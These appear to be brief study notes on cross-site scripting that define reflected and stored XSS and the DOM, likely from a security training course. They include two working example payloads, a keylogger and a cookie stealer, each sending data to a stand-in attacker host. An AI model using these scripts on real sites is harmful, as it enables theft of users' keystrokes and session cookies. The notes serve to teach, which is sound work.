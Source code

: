 XSS: Code injected by an attacker to be executed by a vulnerable webpage accessed by the victim. 
Ex.  `<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`
 or `<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`
 Reflected XSS: Victim accesses a link created by an attacker. The link contains injected code in the URL parameters, causing malicious code to run through the vulnerable website on the victim's computer.

Stored XSS: Attacker injects malicious code into vulnerable website input field, this gets stored on the database and displayed on the page(eg. comment on a forum). Any user accessing the page will run the attacker's code

DOM = Document Object Model: `root: <html> -> element: <head> -> element: <title> -> text: "My Title"`